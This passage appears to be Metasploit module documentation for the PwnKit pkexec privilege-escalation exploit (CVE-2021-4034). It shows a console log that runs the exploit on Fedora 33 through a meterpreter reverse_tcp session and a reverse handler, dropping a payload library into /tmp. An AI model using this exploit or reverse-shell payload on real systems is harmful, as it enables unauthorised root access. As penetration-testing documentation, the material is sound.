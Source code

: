 Source: https://www.ramanean.com/script-to-detect-polkit-vulnerability-in-redhat-linux-systems-pwnkit/

### Fedora:

Fedora should be vulnerable, and the pkexec binary will respond like it is vulnerable, but
the exploit will fail.  I don't know why, but it still fails with SELinux disabled or using the
original PoCs that compiled a binary on target.  The check method just bails if it sees Fedora.

```
msf6 payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Fedora 33 (Linux 5.8.15-301.fc33.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > shell
Process 2396 created.
Channel 5 created.
sestatus
SELinux status:                 disabled
exit
meterpreter > background
[*] Backgrounding session 1...
msf6 payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 1
session => 1
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set auto
set autocheck                 set autorunscript             set autounhookprocess         
set autoloadstdapi            set autosysteminfo            set autoverifysessiontimeout  
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set autoCheck false
autoCheck => false
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > check

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Found pkexec version 0.117
[*] The target is not exploitable. Fedora is not supported
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.wqogdpzub
[*] /tmp/.wqogdpzub created
[*] Writing '/tmp/.wqogdpzub/kfmlrhrqi/kfmlrhrqi.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.wqogdpzub
```